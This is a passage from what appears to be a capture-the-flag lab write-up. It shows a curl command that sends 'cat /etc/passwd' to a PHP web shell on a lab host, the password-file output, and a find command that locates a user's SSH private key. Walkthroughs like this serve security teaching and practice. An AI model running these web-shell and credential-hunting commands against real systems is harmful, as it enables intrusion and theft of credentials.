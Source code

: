 We now have a reverse shell. Let's check the `/etc/passwd` file:

~~~
$ curl -s --data-urlencode "cmd=cat /etc/passwd" -X POST http://10.10.166.91/2591c98b70119fe624898b1e424b5e91.php | grep -v -e "^$" | grep -v "<"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
papa:x:1000:1000:qaa:/home/papa:/bin/bash
mysql:x:108:116:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
pingu:x:1002:1002::/home/pingu:/bin/bash
~~~

Yes, it seems we still have an account, with user `pingu`. Notice though that we are currently connected as `www-data` in our reverse shell.

### #5.3 - What is my ssh password?

The instructions were referring to the `find` command to list files owned by a given user. Let's check all the files we own:

~~~
$ find / -user pingu -print 2>/dev/null
/home/pingu
/home/pingu/.bash_history
/home/pingu/.cache
/home/pingu/.cache/motd.legal-displayed
/home/pingu/.ssh
/home/pingu/.ssh/id_rsa
/home/pingu/.ssh/id_rsa.pub
/home/pingu/.nano
/home/pingu/.gdb_history
/home/pingu/.pwntools-cache-2.7
/home/pingu/.pwntools-cache-2.7/update
~~~
